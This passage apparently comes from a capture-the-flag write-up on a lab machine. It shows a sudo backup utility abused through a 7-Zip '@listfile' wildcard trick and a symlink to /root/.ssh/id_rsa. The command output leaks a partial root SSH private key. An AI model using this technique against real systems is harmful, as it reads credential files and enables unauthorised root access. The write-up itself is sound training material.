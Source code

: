 Like this:

![](/img/image-20240712174348207.png)

I can do the same thing to get `/root/.ssh/id_rsa`:



    xander@usage:/var/www.md$ touch @0xdf; ln -fs /root/.ssh/id_rsa 0xdf
    xander@usage:/var/www.md$ sudo usage_management
    Choose an option:
    1. Project Backup
    2. Backup MySQL data
    3. Reset admin password
    Enter your choice (1/2/3): 1

    7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
    p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7302P 16-Core Processor                (830F10),ASM,AES-NI)

    Open archive: /var/backups/project.zip
    --
    Path = /var/backups/project.zip
    Type = zip
    Physical Size = 54829609

    Scanning the drive:
    WARNING: No more files
    -----BEGIN OPENSSH PRIVATE KEY-----

    WARNING: No more files
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW

    WARNING: No more files
    QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi

    ...[snip]...

    WARNING: No more files
    -----END OPENSSH PRIVATE KEY-----

    2984 folders, 17946 files, 113879189 bytes (109 MiB)

    Updating archive: /var/backups/project.zip

    Items to compress: 20930

    Scan WARNINGS for files and folders:

    -----BEGIN OPENSSH PRIVATE KEY----- : No more files
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW : No more files
    QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi : No more files
    ...[snip]...
    -----END OPENSSH PRIVATE KEY----- : No more files
    ----------------
    Scan WARNINGS: 7

    Break signaled
